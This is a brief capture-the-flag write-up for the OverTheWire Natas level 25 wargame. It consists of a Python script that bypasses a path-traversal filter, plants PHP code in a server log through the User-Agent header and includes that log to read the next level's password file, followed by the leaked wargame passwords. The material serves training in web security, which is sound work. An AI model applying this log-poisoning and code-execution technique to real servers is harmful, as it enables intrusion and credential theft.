 # natas26

```python
import httplib,sys
from base64 import b64encode
from urllib import urlencode

sessid=’whateversessid’
langstr=’….//….//….//….//….//var/www/natas/natas25/logs/natas25_whateversessid.log’
httpClient = None
try:
userAndPass = b64encode(b”natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c”).decode(“ascii”)
cookie = ‘PHPSESSID=’+str(sessid)
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass , ‘Content-Type’: ‘application/x-www-form-urlencoded’ , ‘Cookie’ : cookie , ‘User-Agent’ : ‘<? passthru(“cat /etc/natas_webpass/natas26”) ?>’}
httpClient = httplib.HTTPConnection(‘natas25.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘GET’, ‘/index.php?lang=’+langstr, headers=headers)
response = httpClient.getresponse()
responseData = response.read()
print responseData
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()
```

“….//” becomes “../” after the first filter
The second filter cannot be passed
Make use of User-Agent to execute code

Password: oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

